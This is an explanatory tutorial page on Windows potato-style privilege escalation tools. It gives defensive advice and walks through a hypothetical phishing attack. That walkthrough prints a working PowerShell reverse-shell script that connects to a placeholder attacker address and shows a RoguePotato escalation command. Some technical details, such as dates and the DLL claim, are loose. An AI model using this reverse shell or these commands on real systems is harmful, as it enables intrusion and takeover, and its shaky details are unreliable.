 # Windows RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato


# 👉 Overview

---

### 👀 What ?

Windows RoguePotato, PrintSpoofer, SharpEfsPotato, and GodPotato are four cybersecurity exploits that target Windows' privilege escalation vulnerabilities. They are tools used by cyber attackers to gain higher-level access in a system, often with the goal of gaining administrative or 'root' access.


### 🧐 Why ?

Understanding these exploits is crucial because they are commonly used in modern-day cyber attacks, particularly those targeting corporate networks. They exploit inherent vulnerabilities in the Windows operating system, specifically related to privilege escalation, making any system running Windows potentially susceptible.


### ⛏️ How ?

To use these exploits to one's advantage, one must first understand the environments where they are effective. These tools usually require an initial foothold in the system, often obtained via social engineering or malware. Once inside, they can exploit Windows services to escalate privileges. For protection, regular system updates and patches, restricting unnecessary privileges, and monitoring for suspicious activity are crucial.


### ⏳ When ?

These exploits have been in use since they were discovered, around the mid-2010s. They are still actively used in the present day due to the wide use of the Windows operating system and the persistence of the vulnerabilities they exploit.


# ⚙️ Technical Explanations

---

RoguePotato, PrintSpoofer, SharpEfsPotato, and GodPotato are cybersecurity exploits that target Windows' privilege escalation vulnerabilities. These tools are used to gain higher-level or 'root' access in a system, which could potentially give cyber attackers full control over a compromised system.

They leverage Windows' token manipulation and impersonation features. In Windows, a token is a data structure that includes security identification information for a process or thread, such as user identity and group membership. Token manipulation involves the alteration of these data structures to gain unauthorized access or elevate privileges.

These exploits often target the Windows NT LAN Manager (NTLM) protocol, which is known to have vulnerabilities. NTLM is an outdated Microsoft security protocol for providing authentication in their network protocols, and it has been superseded by Kerberos in newer versions of Windows. However, NTLM is still supported for backward compatibility, and this makes Windows systems vulnerable to these exploits.

The methodology of these exploits involves intercepting legitimate requests for elevated privileges and substituting them with malicious ones. This allows the attacker to execute actions with higher-level permissions, often leading to a complete system takeover.

To defend against these attacks, it is crucial to have an in-depth understanding of Windows' security features. Regular system updates and patches are essential as they often include fixes for known vulnerabilities. Furthermore, restricting unnecessary privileges and closely monitoring for suspicious activity can also help protect against these exploits.

It's important to note that while these exploits can be highly damaging, they usually require an initial foothold in the system, often obtained via social engineering or malware. Therefore, comprehensive security practices, including employee education and malware protection, are critical in preventing these exploits from being effective.

Let's consider a hypothetical scenario where an attacker has gained initial access to a Windows system through a successful phishing campaign.

### Step 1: Initial Foothold

The attacker sends a phishing email to the victim, and the victim unknowingly downloads and opens the malicious attachment. The attacker now has a foothold in the system. For example, the attacker could use a PowerShell script embedded in the attachment to establish a backdoor:

```powershell
$Client = New-Object System.Net.Sockets.TCPClient('attacker-ip', 8080)
$Stream = $Client.GetStream()
[Byte[]]$Bytes = 0..65535|%{0}
while(($i = $Stream.Read($Bytes, 0, $Bytes.Length)) -ne 0) {
    $Data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($Bytes,0, $i)
    $Sendback = (Invoke-Expression -Command $Data 2&1 | Out-String )
    $Sendback2 = $Sendback + '# '
    $Sendbyte = ([text.encoding]::ASCII).GetBytes($Sendback2)
    $Stream.Write($Sendbyte,0,$Sendbyte.Length)
    $Stream.Flush()
}

```

This script establishes a reverse-shell connection back to the attacker's machine, giving the attacker control over the victim's machine.

### Step 2: Privilege Escalation

The attacker uses a tool like RoguePotato to escalate their privileges. They would target a service running with higher privileges and force it to load a malicious DLL:

```powershell
RoguePotato.exe -r 127.0.0.1 -e cmd.exe -l 9999

```

In this command, `-r` specifies the target, `-e` specifies the executable (here, `cmd.exe`), and `-l` specifies the listening port. The attacker now has an elevated command prompt.

### Step 3: Lateral Movement

The attacker can now move laterally within the network, using tools like `net use` to map network drives or `psexec` to execute commands on remote systems.

Please note that this is a simplified example for illustrative purposes. Real-world attacks often involve additional steps and complexities. Always follow best security practices to protect against such attacks.

